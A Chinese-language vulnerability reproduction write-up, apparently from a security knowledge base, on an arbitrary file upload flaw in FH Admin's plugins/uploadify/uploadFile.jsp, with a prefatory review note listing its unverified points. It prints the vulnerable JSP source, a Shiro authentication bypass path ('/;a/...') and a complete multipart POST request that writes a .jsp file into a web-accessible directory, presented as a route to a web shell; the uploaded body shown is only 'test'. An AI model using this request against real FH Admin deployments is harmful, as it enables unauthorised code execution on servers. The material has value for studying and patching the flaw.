




## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：FH Admin/Shiro versions unspecified; vulnerable connector, bypass route and executable writable web path needed

代码与实验材料：Full JSP source and multipart marker test; image-only bypass/result; test body not executable JSP

来源证据范围：XZ8311 original link

- **结论使用边界（1）**：Status200 and uploaded literal test don't alone demonstrate shell execution。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **适用与权限边界（2）**：Must separate authenticated upload from specific Shiro bypass; fileNmae variable affects file not actual saveFile in shown code。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# FH Admin 任意文件上传漏洞

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

`plugins/uploadify/uploadFile.jsp`，即在项目下面存在文件夹plugins，其下面存在文件夹uploadify，而uploadify文件夹下面同时存在uploadFile.jsp文件；那么该项目非常有可能存在漏洞。

`uploadFile.jsp`文件内容如下：

    <%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
    <%@ page import="java.io.*, java.util.*, org.apache.commons.fileupload.*, java.util.*" %>
    <%@ page import="org.apache.commons.fileupload.disk.*, org.apache.commons.fileupload.servlet.*" %>
    <%!
        
        public void upload(HttpServletRequest request, HttpServletResponse response)throws ServletException, IOException {
            String savePath = this.getServletConfig().getServletContext().getRealPath("");
            savePath = savePath + request.getParameter("uploadPath");
            File f1 = new File(savePath);
            //这里接收了uploadPath的值  System.out.println(request.getParameter("uploadPath"));
            if (!f1.exists()) {
                f1.mkdirs();
            }
            DiskFileItemFactory fac = new DiskFileItemFactory();
            ServletFileUpload upload = new ServletFileUpload(fac);
            upload.setHeaderEncoding("utf-8");
            List fileList = null;
            try {
                fileList = upload.parseRequest(request);
            } catch (FileUploadException ex) {
                return;
            }
            
            
            String fileNmae = request.getParameter("fileNmae"); 
            Iterator<FileItem> it = fileList.iterator();
            String name = "";
            String extName = "";
            while (it.hasNext()) {
                FileItem item = it.next();
                if (!item.isFormField()) {
                    name = item.getName();
                    long size = item.getSize();
                    String type = item.getContentType();
                    //System.out.println(size + " " + type);
                    if (name == null || name.trim().equals("")) {
                        continue;
                    }
        
                    // 扩展名格式：
                    if (name.lastIndexOf(".") >= 0) {
                        extName = name.substring(name.lastIndexOf("."));
                    }
        
                    File file = null;
                    if(null != fileNmae && !"".equals(fileNmae)){
                        file = new File(savePath + fileNmae);
                    }else{
                        do {
                            if(null != fileNmae && !"".equals(fileNmae)){
                                file = new File(savePath + fileNmae);
                            }else{
                                name = new java.text.SimpleDateFormat("yyyyMMddhhmmss").format(new Date());   //获取当前日期
                                name = name + (int)(Math.random()*90000+10000);
                                file = new File(savePath + name + extName);
                            }
                        } while (file.exists());
                    }
        
                    File saveFile = new File(savePath + name + extName);
                    try {
                        item.write(saveFile);
                    } catch (Exception e) {
                        e.printStackTrace();
                    }
                }
            }
            response.getWriter().print((name.trim() + extName.trim()).trim());
        }
    %>
    <%
        upload(request, response);
    %>

尝试访问此文件，提示未登录302跳转

由于该框架使用到了shiro，如若shiro版本过低会导致shiro身份绕过漏洞，结合文库shiro部分的身份认证绕过利用即可getshell

我们使用

    /;a/plugins/uploadify/uploadFile.jsp 代码不唯一！！！具体请参考文库shiro权限绕过部分文章！！！

来绕过shiro的权限控制，可以注意到状态码为200

结合之前给出的代码需要两个参数构造上传包

发现上传成功，但是居然找不到文件。

仔细看了一下才知道request.getParameter(\"uploadPath\");解析不了multipart里的参数，再次构造上传包

    POST /;a/plugins/uploadify/uploadFile.jsp?uploadPath=/plugins/uploadify/ HTTP/1.1
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQDeBiVqfe6p3FMnJ

    ------WebKitFormBoundaryQDeBiVqfe6p3FMnJ
    Content-Disposition: form-data; name="imgFile"; filename="2204249.jsp"
    Content-Type: image/jpeg

    test
    ------WebKitFormBoundaryQDeBiVqfe6p3FMnJ--

成功shell

参考链接
--------

> https://xz.aliyun.com/t/8311
